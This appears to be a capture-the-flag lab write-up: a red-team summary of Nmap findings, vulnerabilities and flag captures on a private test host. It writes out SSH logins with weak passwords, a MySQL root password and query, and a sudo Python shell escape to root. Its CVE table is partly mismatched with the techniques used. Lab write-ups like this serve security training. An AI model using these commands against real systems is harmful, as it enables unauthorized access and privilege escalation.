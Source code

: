 Red Team: Summary of Operations

Table of Contents

Exposed Services
Critical Vulnerabilities
Exploitation


### Exposed Services
TODO: Fill out the information below.
Nmap scan results for each machine reveal the below services and OS details:
- nmap -sV 192.168.1.110  

![](Images/5.0-Target%201%20Nmap%20Scan.png)

This scan identifies the services below as potential points of entry:

### Target 1

- SSH
- HTTP
- RPCBIND
- NETBIOS-SSN

The following vulnerabilities were identified on each target:

### Target 1

| Vulnerability        | Description                                                                                                                                                      | Impact                              | CVE or Standard |
|----------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------|-------------------------------------|-----------------|
| Port Scanning        | Use Nmap to detect open ports                                                                                                                                    | Show vulnerable ports and services. | Standard        |
| Enumerate WordPress  | Exhibit different behavior for a failed login attempt depending on whether the user account exists, which allows remote  attackers to enumerate valid usernames. | Enumerate User Accounts             | CVE-2009-2335   |
| Weak Password        | Using easily guess passwords                                                                                                                                     | Gain access to the machine          | Standard        |
| Privilege Escalation | when running with Python 3.6 or later,  allows remote authenticated users to execute  arbitrary code, leading to privilege escalation.                           | Gain root access to the machine     | CVE-2020-29396  |



![](Images/5.1-Word%20Press%20Scan.png)

### Exploitation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

Target 1


flag1.txt: ![](Images/6.0-Flag1%20Found.png)


Exploit Used

- Weak password
- ssh michael@192.168.1.110
- cd /var/www/
- grep -RE flag


flag2.txt: ![](Images/7.0-Flag2%20Found.png)


Exploit Used

- Weak password
- ssh michael@192.168.1.110
- cd /var/www/
- ls
- cat flag2.txt

flag3.txt: 

Exploit Used

- Weak password
- ssh michael@192.168.1.110
- cd /var/www/html/wordpress
- mysql -u root -p
- R@v3enSecurity
- use wordpress;
- SELECT * FROM wp_posts;

flag4.txt: 

Exploit Used

- Privilege Escalation
- ssh steven@192.168.1.110
- sudo python -c 'import os;os.system("/bin/sh")'
- cd ../..
- cd root
- cat flag4
